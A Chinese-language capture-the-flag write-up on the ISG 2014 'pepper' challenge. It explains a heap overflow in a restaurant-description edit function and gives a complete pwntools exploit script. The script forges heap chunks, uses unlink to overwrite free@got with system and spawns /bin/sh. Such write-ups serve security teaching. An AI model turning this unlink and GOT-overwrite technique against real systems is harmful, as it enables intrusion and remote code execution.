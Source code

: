 ```yaml
---
title: ISG决赛pepper
author: rk700
layout: post
redirect_from: /writeup/2015/04/22/isg-pepper
tags:
  - exploit
---
```


这道题目是去年参加ISG决赛时遇到的。二进制文件是有多个漏洞，我们当时是做的栈溢出，而堆溢出一直没有研究过。正好这两天在学习堆溢出，发现这道题和0CTF的freenote十分相似，不愧是同一批人出的题目。所以，在这里简要记录下，因为思路是完全一样的

具体地，通过修改restaurant的功能，我们可以重新编辑restaurant的description。description是保存在堆上的，但在修改时，完全没有考虑新的内容会超过之前分配的大小，于是堆溢出了。与freenote一样，我们写大量的内容到堆上，来构造一系列伪chunks，再通过`free`时的`unlink`，来修改某个值。

在`unlink`检查时，也用的是和freenote一样的方法，即找到某个存有我们伪chunk地址的地方，从那里往前3个指针作为`fd`，往前2个指针作为`bk`。freenote里，保存`malloc`地址的结构数组是存在堆上的，所以那道题我们需要首先得到heap的地址。而pepper这道题，保存所有restaurant结构的数组是在全局变量，已经是固定位置，所以省下了这一环节。

后面的思路就完全一样了。再次修改，使得description指向`free@got`，并通过读写，将`system`的地址写到`free@got`，最后删除时就会调用`system`了。

下面是具体代码：

{% highlight python %}
#!/usr/bin/env python2

from pwn import *

r = remote('127.0.0.1', 55555)

f = open("payload", "wb")

def send(x):
    r.send(x)
    f.write(x)

def newItem(length, desc, name="restaurant", address="road", no="1", score=100):
    r.recvuntil('Your choice: ')
    send('4\n')
    r.recvuntil('Input Rest. name(no more than 32 characters): ')
    send(name+'\n')
    r.recvuntil('On which road(no more than 128 characters)? ')
    send(address+'\n')
    r.recvuntil('Street No? ')
    send(no+'\n')
    r.recvuntil('Length of the description of your favourite dish: ')
    send(str(length)+'\n')
    r.recvuntil('Input your description:')
    send(desc+'\n')
    r.recvuntil('Finally, give a score ;-)')
    send(str(score)+'\n')

def delItem(i):
    r.recvuntil('Your choice: ')
    send('3\n')
    r.recvuntil('Input the index of Rest. you want to delete: ')
    send(str(i) + '\n')

def showItem(i):
    r.recvuntil('Your choice: ')
    send('2\n')
    r.recvuntil('Please input the index of the restaurant: ')
    send(str(i)+'\n')
    r.recvuntil('Recommended Dish: ')
    return r.recvline(keepends=False)

def editItem(i, length, desc, score=100):
    r.recvuntil('Your choice: ')
    send('5\n')
    r.recvuntil('Input the index of Rest. you want to edit: ')
    send(str(i) + '\n')
    r.recvuntil('New score XD: ')
    send(str(score) + '\n')
    r.recvuntil('Do you want to change the description of the recommended dish(y/n)? ')
    send("y\n")
    r.recvuntil('New len: ')
    send(str(length)+'\n')
    r.recvuntil('New description: ')
    send(desc+'\n')

def quit():
    r.recvuntil('Your choice: ')
    send('6\n')

newItem(127, "aaaa")
newItem(127, "bbbb")

#fd->bk = bk->fd = &ptr
ptr = 0x0804b0a0 + 4*2
fd = ptr - 4*3
bk = ptr - 4*2

# crafted chunks
# chunk0' starts from &ptr
# chunk0 is free
chunk0 = p32(0) + p32(0x81) + p32(fd) + p32(bk) + "A"*(0x80-4*4)
chunk1 = p32(0x80) + p32(0x90) + "B"*(0x90-4*2)
chunk2 = p32(0) + p32(0x91) + "C"*(0x90-4*2)
chunk3 = p32(0) + p32(0x91) + "D"*(0x90-4*2)
chunk = chunk0 + chunk1 + chunk2 + chunk3
editItem(0, 1000, chunk)

# free chunk1, and will result in unlink of chunk0
delItem(1)
# now restaurant0's description points to 0x0804b09c

freeGot = 0x0804b014
free2system = -0x38520

# will overwrite first 12 bytes of restaurant0 and set its description pointing to free@got
editItem(0, 20, p32(0)+p32(100)+p32(20)+p32(freeGot))

s = showItem(0)
freeAddr = u32((s[:4].ljust(4, '\x00'))[:4])
systemAddr = freeAddr + free2system
print "system is at %s" % hex(systemAddr)

# write system to free@got
editItem(0, 4, p32(systemAddr))

# invoke system("/bin/sh")
newItem(20, "/bin/sh")
delItem(1)

r.interactive()
exit(0)
{% endhighlight %}

所以这道题用的还是`unlink`。而我看[217的writeup](http://217.logdown.com/posts/241446-isg-2014-pepper)里，似乎是通过fastbin来做的，有空再研究下fastbin这种方法。
